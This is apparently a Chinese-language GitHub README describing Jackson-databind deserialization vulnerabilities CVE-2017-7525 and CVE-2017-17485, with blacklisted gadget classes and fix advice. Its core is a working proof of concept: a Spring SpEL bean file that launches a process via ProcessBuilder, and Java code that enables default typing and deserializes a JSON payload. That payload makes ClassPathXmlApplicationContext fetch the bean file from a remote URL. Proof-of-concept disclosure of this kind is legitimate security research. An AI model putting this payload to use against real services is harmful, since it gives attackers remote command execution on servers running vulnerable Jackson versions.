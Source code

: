 # Jackson 反序列化

## 漏洞描述

### CVE-2017-7525
官方在漏洞产生后，通过黑名单的方式禁止黑名单中的第三方库反序列化问题而产生的代码执行漏洞,黑名单是一种不可靠的修复方式，攻击者常常可以通过一些手段绕过黑名单，造成新漏洞产生。

黑名单如下：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

```
### 新漏洞的产生CVE-2017-17485
在开启enableDefaultTyping()的前提下可以通过Jackson-databind来滥用Spring spel来执行任意命令。

## 漏洞验证

本项目中的war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的 https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln


#### Spring spel
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```
#### 验证代码
```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	public static void payload() {
		/*
		 * 假设是攻击者的恶意JSON请求数据
		 * ["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		 * 
		 */
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}
```
![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
官方已经更新黑名单列表，并计划在Jackson的大版本3.X通过api层实现基于白名单的序列化方式来应对多态类：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
org.apache.xalan.xsltc.trax.TemplatesImpl
com.sun.rowset.JdbcRowSetImpl
java.util.logging.FileHandler
java.rmi.server.UnicastRemoteObject
org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor
org.springframework.beans.factory.config.PropertyPathFactoryBean
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
```
## 修复建议
升级到最新版本jackson-databind 2.7.9.2，2.8.11，2.9.3.1（2018-01-13 00:04:20该版本还未发布）。

禁用enableDefaultTyping()方法。

对客户端传入的JSON数据，进行过滤或者类型检查。
